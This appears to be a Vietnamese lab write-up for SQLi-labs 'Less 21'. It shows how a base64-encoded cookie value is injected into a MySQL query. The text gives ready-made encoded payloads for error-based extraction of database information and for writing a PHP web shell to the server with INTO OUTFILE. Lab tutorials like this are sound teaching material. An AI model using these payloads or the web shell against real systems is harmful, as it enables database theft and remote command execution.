# Less 21

Đề bài cho một khung nhập



Thử đăng nhập



Tôi tìm cách để pass qua được màn đăng nhập nhưng không được. Có thể ở đây ở dưới backend đã check input đầu vào ở khung đăng nhập nên ta không thể injection ở đây. 

Tôi thử dùng một tài khoản để đăng nhập





Ở đây ta thấy có nhiều thông tin được hiển thị bao gồm `user-agent` và `cookies`

Tôi thử thay đổi `user-agent` trong http request header



Thì tôi thấy nó đã hiển thị lên màn hình



Sau đó tôi thử truyền vào một số giá trị để xem có thể injection được từ đây không nhưng tôi thấy không được. Tiếp đó tôi thử thay đổi `cookies` trong request header



Kết quả trả về



Ta thấy ở đây gía trị đã được lấy để hiển thị lên màn hình nhưng ta thấy cũng có lỗi của SQL hiển thị lên màn hình. 

Ở đây ta thấy ta không truyền vào giá trị `¦v` nhưng ta lại thấy có xuất hiện ký tự này trong lỗi của SQL hiển thị ra. Ta cũng có thể nhận thấy như ban đầu tôi đăng nhập tôi thấy có chuỗi giá trị `umane` ở trong `cookies` ta là một chuỗi nhìn vào không có ý nghĩa. Tôi dự đoán có thể giá trị trong trường này có thể đã được encode. Tôi thử lấy chuỗi `YWRtaW4=` đem decode thì khi tôi decode ra base64 thì thấy chuỗi có giá trị là `admin`. Tiếp tục thử tôi lấy giá trị tôi truyền vào là `niemdt` như lúc tôi truyền vào cookies đem decode ra thì được gía trị là `'v` thấy tương đồng với gía trị lúc SQL báo lỗi. Như vậy ta thấy rằng giá trị lấy ở trong trường cookies sẽ được đem decode để truyền vào câu query trong mysql và hiển thị ra mà hình.

Bây giờ trước khi muốn truyền giá trị nào vào cookies tôi sẽ đem giá trị đó đi encode trước rồi mới truyền vào

`niemdt` ---> `bmllbWR0`



Đã không còn thấy lỗi



Thử truyền vào một số thông số để xem có thể injection

`admin'` ---> `YWRtaW4n`





Ta thấy được câu query ở đây là câu lệnh `select`

Như vậy dựa vào đây ta có thể show các thông tin trong DB

show tên của DB hiện tại

`admin') and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- '` ---> `YWRtaW4nKSBhbmQgKFNFTEVDVCAwIEZST00gKFNFTEVDVCBjb3VudCgqKSwgQ09OQ0FUKChzZWxlY3QgZGF0YWJhc2UoKSksIDB4MjMsIEZMT09SKFJBTkQoMCkqMikpIEFTIHggRlJPTSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyBHUk9VUCBCWSB4KSB5KSAtLSAn` 



Tương tự như vậy ta có thể có thể show các thông tin khác như những bài trước.

Ta cũng có thể thêm đoạn code PHP vào server

`admin') union select 1,2,"<?php system($_REQUEST['cmd']);?>" into outfile '/var/www/html/tests/c1.php' -- '` ---> `YWRtaW4nKSB1bmlvbiBzZWxlY3QgMSwyLCI8P3BocCBzeXN0ZW0oJF9SRVFVRVNUWydjbWQnXSk7Pz4iIGludG8gb3V0ZmlsZSAnL3Zhci93d3cvaHRtbC90ZXN0cy9jMS5waHAnIC0tICc=`



